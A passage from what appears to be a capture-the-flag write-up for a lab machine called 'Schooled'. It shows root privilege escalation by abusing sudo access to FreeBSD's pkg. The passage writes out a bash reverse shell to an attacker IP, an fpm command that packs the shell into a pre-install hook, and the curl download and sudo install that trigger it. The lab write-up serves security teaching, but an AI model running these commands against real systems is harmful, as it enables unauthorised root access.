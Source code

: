 The command `pkg` is a package manager and there is an entry in [GTFOBins for this binary](https://gtfobins.github.io/gtfobins/pkg/) to escalate privileges to root.

Creating reverse shell script _shell.sh_ in _/tmp_:
```
bash -i >& /dev/tcp/10.10.14.3/9002 0>&1
```

Creating the package with `fpm`:
```
TF=$(mktemp -d)
echo '/tmp/shell.sh' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```

Uploading the package to the box:
```
jamie@Schooled:/tmp $ curl 10.10.14.3:8000/x-1.0.txz -o x-1.0.txz
```

Installing the package with root permissions:
```
sudo pkg install -y --no-repo-update ./x-1.0.txz
```

After installing the package, it will execute _shell.sh_ and the listener on my IP and port 9002 starts a reverse shell as root!

